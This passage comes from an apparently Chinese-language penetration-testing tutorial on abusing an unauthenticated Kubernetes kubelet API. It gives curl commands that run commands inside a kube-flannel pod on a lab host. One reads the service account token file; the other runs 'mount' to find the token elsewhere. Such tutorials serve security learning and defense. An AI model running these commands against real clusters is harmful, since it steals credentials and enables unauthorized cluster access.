 [![](assets/1701826061-799b7ab4a0bc9c25778f1d366a82c891.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170909-285474fe-7316-1.png)  
Step 4：检索 Token 信息  
默认情况下 Token 保存在/var/run/secrets/kubernetes.io/serviceaccount/token

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1701826061-9beb164180755f7c1f7468c5bc81c202.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170949-3ff2c61a-7316-1.png)  
如果 token 不在/var/run/secrets/kubernetes.io/serviceaccount/token，那么可以通过 mount 命令来查找

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=mount"
```
